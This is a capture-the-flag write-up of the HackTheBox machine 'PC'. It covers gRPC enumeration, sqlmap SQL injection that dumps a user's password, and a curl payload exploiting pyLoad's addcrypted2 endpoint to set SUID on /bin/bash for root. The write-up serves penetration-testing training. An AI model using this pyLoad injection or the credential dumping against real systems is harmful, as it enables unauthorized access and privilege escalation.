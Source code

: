 ```yaml
---
title: "HackTheBox | PC"
layout: post
date: 2023-10-02 16:00
tag: 
- HackTheBox
- Pentesting
- PC
- Linux
- Easy
- gRPC
- SQLi
image: https://www.hackthebox.com/storage/avatars/6d08e5f1919c77c0497213377f635e08.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that exploits SQL injection in a gRPC application.

---

# Nmap

```bash
nmap -A -T4 10.10.11.214 -Pn -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-09 20:04 +01
Stats: 0:03:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.93% done; ETC: 20:10 (0:02:46 remaining)
Nmap scan report for 10.10.11.214
Host is up (0.098s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.91%I=7%D=8/9%Time=64D3E4AA%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked what's in the port 50051 I found :

![!\[\[Pasted image 20230809201409.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809201409.png>)

First I didn't know what's that about, but after some googling I found it's about gRPC :

>gRPC is a modern open-source high performance Remote Procedure Call (RPC) framework. It can efficiently connect services in and across data centers with pluggable support for load balancing, tracing, health checking and authentication.

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9)

Following the above POC. We will first try to list out the blogs available to us in the target scope :

```bash
grpcurl -plaintext 10.10.11.214:50051 list
```

![!\[\[Pasted image 20230809202020.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202020.png>)

Now we are able to see that the SimpleApp service is up and running, we will now check about the list of services running on gRPC server :

```bash
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
```

![!\[\[Pasted image 20230809202240.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202240.png>)

Now we will create a user using the GRPC UI tool :

```bash
./grpcui -plaintext 10.10.11.214:50051
```

![!\[\[Pasted image 20230809202812.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202812.png>)

This command will initiate a UI portal on which we can provide our data to login or register a user :

![!\[\[Pasted image 20230809202905.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202905.png>)

After playing around with the UI interface, I realized that I can request the data using the credentials "admin:admin".

![!\[\[Pasted image 20230809203400.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809203400.png>)

![!\[\[Pasted image 20230809212926.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809212926.png>)

The blog above gave me a hint about possible SQLi in gRPC :

![!\[\[Pasted image 20230810002455.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002455.png>)

Then I checked getInfo, which requires the token of the user to work :

![!\[\[Pasted image 20230810001553.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001553.png>)

I sent the request to Repeater and then save it as req.txt to automatically test against SQLi :

```bash
sqlmap -r req.txt --dump
```

I found the credentials of the user **sau** :
**sau : HereIsYourPassWord1431**

![!\[\[Pasted image 20230810002005.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002005.png>)

# User flag

I'm in ! Now I can get the user flag :

![!\[\[Pasted image 20230810001948.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001948.png>)

# PE

I checked running services and I found a suspicious port, I decided to do SSH port forwarding to see what's behind this port :

![!\[\[Pasted image 20230810102352.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102352.png>)

```bash
ssh -L 127.0.0.1:8000:127.0.0.1:8000 sau@10.10.11.214
```
![!\[\[Pasted image 20230810102306.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102306.png>)

Found a pyLoad page, I checked if there a POC for that and I found it :

![!\[\[Pasted image 20230810102251.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102251.png>)

[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65)

I changed the payload to add the SUID permission to /bin/bash :

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

![!\[\[Pasted image 20230810104618.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104618.png>)

Boom I'm root !

![!\[\[Pasted image 20230810104551.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104551.png>)

# Root flag

bash-5.0# cat /root/root.txt 
80c997563bf9af451544f2e71984d3c6

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>